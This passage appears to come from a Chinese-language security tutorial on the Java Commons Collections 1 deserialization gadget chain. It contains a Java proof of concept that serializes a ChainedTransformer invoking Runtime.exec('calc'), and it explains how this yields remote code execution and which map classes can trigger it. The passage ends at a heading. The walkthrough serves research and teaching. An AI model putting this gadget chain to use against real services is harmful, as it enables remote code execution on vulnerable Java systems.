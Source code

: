 ```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.*;

import java.io.ByteArrayOutputStream;
import java.io.FileOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;

public class cc1 {

    public static void main(String[] args) throws IOException {
        ChainedTransformer chain = new ChainedTransformer(new Transformer[]{
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[] {
                String.class, Class[].class},new Object[] {
                "getRuntime", new Class[0]}),
            new InvokerTransformer("invoke", new Class[] {
                Object.class, Object[].class}, new Object[] {
                    null, new Object[0]
            }),
            new InvokerTransformer("exec", new Class[] { String.class }, new Object[]{"calc"})
        });
        //chain.transform(123);

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream os = new ObjectOutputStream(barr);
        os.writeObject(chain);
        System.out.println(barr);
    }
}
```

这里的操作实现的就是，先通过 InvokerTransformer 实现一个反射得到 Runtime 的 getRuntime 这个 Method 对象，然后再通过 InvokerTransformer 的 former 方法反射通过 Invoke 获取到 getRuntime 的执行结果。

按道理说，只需要给 InvokerTransformer 一个待执⾏的⽅法名，一个参数列表的参数类型，一个参数列表即可，但是这里面为什么会有这两个东西呢？

![1](/img/295.png)

这里需要看一下 getMethod 和 invoke 方法，

![1](/img/296.png)

我们需要向 getMethod 方法里传入一个 name ，即需调用的方法名，第二个参数就是一个可变参数，所以刚才的 new Class[0] 即对应的可变参数，而 Class[].class 即是他的类型，是因为 InvokerTransformer 的第二个参数需要，

所以刚才的 payload 构造过程已经清晰了，刚才的 payload 只需要反序列化后调用了 transform 方法即可RCE，现在就需要找一个反序列化的点，然后能调用到 transform 即可

在 ysoserial 中使用的是 Lazymap 这个类，而P师傅则用的 TransformedMap 这个类，先看P师傅的吧：

#### TransformedMap类的利用
